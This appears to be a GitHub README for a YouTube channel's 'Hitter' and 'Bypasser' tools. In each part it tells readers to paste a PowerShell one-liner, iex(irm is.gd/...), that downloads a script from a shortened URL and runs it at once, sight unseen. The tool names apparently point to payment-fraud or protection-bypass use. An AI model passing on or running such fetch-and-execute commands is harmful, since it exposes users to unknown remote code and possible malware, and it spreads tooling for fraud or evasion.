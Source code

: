 # TechTubeInsider
TechTube Insider YouTube Channel's Files

# Part 1 - Hitter

* Right-click on the Windows start menu and select PowerShell or Terminal (Not CMD).
* Copy-paste the below code and press enter
*```iex(irm is.gd/docomojx)```
* You will see the hitter options, follow the on-screen instructions.
* That’s all.

# Part 2 - Bypasser

* Right-click on the Windows start menu and select PowerShell or Terminal (Not CMD).
* Copy-paste the below code and press enter
```
iex(irm is.gd/bypassjx)
```
* You will see the hitter options, follow the on-screen instructions.
* That’s all.

